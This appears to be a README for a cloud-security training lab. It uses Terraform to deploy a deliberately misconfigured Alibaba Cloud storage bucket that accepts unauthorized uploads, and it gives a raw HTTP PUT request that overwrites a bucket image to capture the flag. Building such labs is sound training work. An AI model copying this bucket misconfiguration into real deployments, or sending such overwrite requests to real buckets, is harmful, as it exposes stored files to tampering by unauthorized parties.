




# Description

English | [中文](./README_CN.md)

This is a script to help you quickly build storage buckets for unauthorized uploads, have fun!

## Deployment environment

### Git clone

```bash
cd /TerraformGoat/aliyun/object_storage_service/unrestricted_file_upload/ 
```

```bash
terraform init
```



Configure Alibaba Cloud Access Credentials

```shell
aliyun configure
```

> You can create and view your AccessKey on the [AccessKey page](https://ram.console.aliyun.com/manage/ak) of the Alibaba Cloud console

```bash
terraform apply
```



If you confirm that there is no problem, type yes and wait for the build



## Get Flag

Visit /hx.png to get the image


This image can be overwritten by using the PUT method

```http
PUT /hx.png HTTP/1.1
Host: hx-cloud-security-ctf-nsao6.oss-cn-beijing.aliyuncs.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 13

HxSecurityLab
```


Afterwards, we use the GET method to get the contents of our overwritten


## Destruction Challenge

```bash
terraform destroy
```


